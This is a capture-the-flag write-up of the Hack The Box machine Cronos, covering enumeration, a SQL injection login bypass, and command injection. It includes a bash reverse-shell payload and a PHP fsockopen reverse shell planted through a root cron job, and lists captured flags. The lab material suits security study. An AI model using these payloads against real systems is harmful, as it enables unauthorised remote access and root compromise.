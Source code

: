 # HTB: Cronos

## Engagement Overview
**Target:** Cronos
**Box IP:** 10.10.10.13
**Local IP:** 10.10.14.10
**Date:** 2025-07-12

---

### Objectives
- Exploit SQL injection and command injection to obtain a shell
- Compromise cron jobs to achieve privilege escalation to root
- Capture user and root flags

---

## Service Enumeration

```bash
# Nmap (condensed)
nmap -sC -sV -oN nmap.txt 10.10.10.13
```

**Relevant output (condensed):**
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1
53/tcp open  domain  ISC BIND 9.10.3-P4
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- DNS SOA present for `cronos.htb`
- Gobuster found nothing useful in this engagement
- Burp Suite repeater demonstrated directory listings via command injection payloads

---

## Initial Access

### SQL Injection → Command Injection
- Bypassed login at `admin.cronos.htb` using typical injection: `' or 1=1-- -`
- Used Burp Suite to craft a command injection payload via a parameter that executed arbitrary commands on the server, e.g.:
  ```
  command=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'&host=/var/www
  ```
- Result: web shell / interactive command execution as `www-data`

---

## Privilege Escalation

### Cron Job Poisoning
- Observed root cron entry running Laravel scheduled task:
  ```
  * * * * *  root  php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```
- Injected a payload that opened a reverse shell to attacker host via PHP/command injection; cron executed as root and provided a root shell.

**Example payload used (conceptual):**
```php
$sock=fsockopen("10.10.14.10",443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

**Flags captured:**
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## House Cleaning / Post-Exploitation

- Removed uploaded artifacts and reversed modifications to artisan where applicable
- Removed `linpeas.sh` and cleared evidence as appropriate

---

## Tools Utilized
- nmap, gobuster, Burp Suite, linPEAS

---

## Key Takeaways
- SQL injection can be escalated to command injection and full compromise when input is unsafely executed server-side.
- Cron jobs that execute web-app-supplied content are high-risk and should be restricted/validated.
- Comprehensive application-level hardening and least privilege for scheduled tasks are crucial.
